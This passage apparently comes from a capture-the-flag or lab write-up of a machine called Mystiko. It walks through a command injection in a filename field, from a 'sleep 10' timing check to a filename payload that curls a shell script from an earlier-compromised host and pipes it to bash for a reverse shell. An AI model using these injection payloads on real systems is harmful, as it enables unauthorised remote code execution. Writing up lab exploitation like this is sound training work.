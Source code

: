 ![](/assets/images/mystiko/mystiko-37.png)

We can see this command injection works beautifully, if we inject the command `sleep 10` the server takes over 11 seconds to respond. 

However, there's one small caveat when trying to gain a reverse shell - the special character `/` would crash the application. 

This was quite a pain, but like always, we Tried Harder™.

We could make a curl request to a listener set up on the first machine we compromised (Pixel) using the filename: `nice'; curl 172.19.0.4:8000 #`


![](/assets/images/mystiko/mystiko-38.png)


By default, curl tries to return the `index.html` page. If we move our `shell.sh` file to `index.html`, when curl retrieves the root of the webserver (index.html), it will grab our shell.sh file. 


![](/assets/images/mystiko/mystiko-39.png)

Then if we set up our reverse shell listener (on the compromised Pixel machine, to save us having to remote port forward), curl the webserver once more, then pipe it to bash instead:

```bash
nice'; curl 172.19.0.4:8000|bash #
```

![](/assets/images/mystiko/mystiko-40.png)
